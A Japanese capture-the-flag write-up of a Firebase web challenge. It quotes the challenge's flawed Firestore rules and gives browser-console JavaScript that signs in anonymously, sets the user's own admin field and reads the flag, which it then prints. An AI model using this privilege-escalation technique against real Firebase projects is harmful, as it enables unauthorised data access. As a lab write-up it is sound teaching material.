 # Problem on fire:web:200pts
たいへん！作問作業が炎上しちゃったよ！みんなで力を合わせてなんとかしよう！  
[https://challenge-on-fire.web.app/](https://challenge-on-fire.web.app/)  
[challenge_on_fire.tar.gz](challenge_on_fire.tar.gz)  

# Solution
アクセスすると謎のサイトが動いていた。  
Welcome to Firebase Hosting  
[site.png](site/site.png)  
タイトルからもわかる通りFirebase系のWeb問題のようだ。  
権限周りの脆弱性であることが容易に想像がつく。  
配布されたファイルのrulesを見ると以下のようであった。  
```
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{uid} {
      // 自分のユーザー情報を書き込めるのは自分のみ
      allow read, create: if request.auth.uid == uid && !request.resource.data.admin;
      // 一度作ったユーザー情報を編集できるのはadminだけ
      allow update: if request.resource.data.admin;
    }
    match /flags/flag {
      // flagを読めるのはadminだけ
      allow read: if get(/databases/$(database)/documents/users/$(request.auth.uid)).data.admin == true;
    }
  }
}
```
adminのみがフラグを読むことができ、自分のみが自分のユーザ情報を書き込める。  
adminになってしまえばよい。  
ページからパクって編集した以下のjsをブラウザのコンソールから実行する。  
```js
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const token = await user.getIdToken();
const uid = user.uid;
const db = firebase.firestore();
await db.collection('users').doc(uid).set({admin: true});
const flag = await db.collection('flags').doc('flag').get();
this.flag = flag.get('value');
```
![flag.png](images/flag.png)  
flagが得られた。  

## TSGLIVE{git_fire_is_also_useful_when_the_project_is_on_fire}